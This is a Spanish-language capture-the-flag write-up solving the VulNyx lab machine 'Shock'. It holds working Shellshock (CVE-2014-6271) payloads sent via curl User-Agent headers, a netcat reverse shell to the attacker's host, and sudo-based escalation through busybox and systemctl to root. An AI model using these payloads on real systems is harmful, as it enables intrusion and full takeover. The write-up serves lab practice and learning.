


Pentesting & Ctf Pl4yer
VulNyx - Shock
Autor: mowree
Escaneo de puertos
❯ nmap -p- -T5 -v -n 192.168.1.14
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
Escaneo de servicios
❯ nmap -sVC -v -p 22,80 192.168.1.14
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
| 2048 3736603e26ae233fe18b5d18e7a7c7ce (RSA)
| 256 349a57607d6670d5b5ff4796e0362375 (ECDSA)
|_ 256 ae7deefe1dbc994d54453d6116f86c87 (ED25519)
80/tcp open http Apache httpd 2.4.38 ((Debian))
| http-methods:
|_ Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
HTTP

Después de enumerar sin encontrar nada lanzo wfuzz poniendo una barra al final / para que vuelva a escanear sin saltarse ninguna ruta . A veces puede pasar que sino pones la barra final no te encuentra algunas rutas.
❯ wfuzz -c -t 200 --hc=404 --hw=1 -w /usr/share/seclists/Discovery/Web-Content/common.txt "http://192.168.1.14/FUZZ/"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer *
********************************************************
=====================================================================
ID Response Lines Word Chars Payload
=====================================================================
000001038: 403 9 L 28 W 277 Ch "cgi-bin/"
000003710: 403 9 L 28 W 277 Ch "server-status"
La carpeta cgi-bin es una carpeta utilizada para alojar scripts que interactuarán con un navegador web, en esta carpeta se suelen poner archivos .sh, .cgi entre otros, así que hago una búsqueda de extensiones.
❯ wfuzz -c -t 200 --hc=404 --hw=1 -w /usr/share/seclists/Discovery/Web-Content/common.txt -z list,sh-cgi "http://192.168.1.14/cgi-bin/FUZZ.FUZ2Z"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer *
********************************************************
=====================================================================
ID Response Lines Word Chars Payload
=====================================================================
000014961: 500 16 L 77 W 610 Ch "shell - sh"
Si intento ver el archivo desde firefox veo el siguiente error.

Buscando en internet he encontrado este artículo.
https://github.com/opsxcq/exploit-CVE-2014-6271
Puedo ejecutar comandos de la siguiente forma:
❯ curl -H "user-agent: () { :; }; echo;echo; /bin/bash -c 'id'" http://192.168.1.14/cgi-bin/shell.sh
uid=33(www-data) gid=33(www-data) groups=33(www-data)
Como tengo ejecución remota de comandos me mando una shell.
❯ curl -H "user-agent: () { :; }; echo;echo; /bin/bash -c 'nc -e /bin/bash 192.168.1.18 1234'" http://192.168.1.14/cgi-bin/shell.sh
Obtengo la shell.
❯ nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.1.18] from (UNKNOWN) [192.168.1.14] 50850
script /dev/null -c bash
Script started, file is /dev/null
bash-4.3$
Compruebo los permisos de sudo.
sudo -l
Matching Defaults entries for www-data on shock:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User www-data may run the following commands on shock:
(will) NOPASSWD: /usr/bin/busybox
Para conseguir pivotar de usuario uso este recurso online GTFObins .
https://gtfobins.github.io/gtfobins/busybox/#sudo
Lanzo el siguiente comando para pivotar al usuario will.
sudo -u will /usr/bin/busybox sh
Una vez como como usuario will enumero de nuevo los permisos de sudo.
will@shock:/usr/lib/cgi-bin$ sudo -l
sudo -l
Matching Defaults entries for will on shock:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User will may run the following commands on shock:
(root) NOPASSWD: /usr/bin/systemctl
De nuevo voy a GTFObins .
https://gtfobins.github.io/gtfobins/systemctl/#sudo
Obtengo el root de la siguiente manera.
sudo systemctl
!bash
root@shock:~# id
id
uid=0(root) gid=0(root) groups=0(root)
Y con esto ya tenemos resulta la máquina Shock del sr mowree.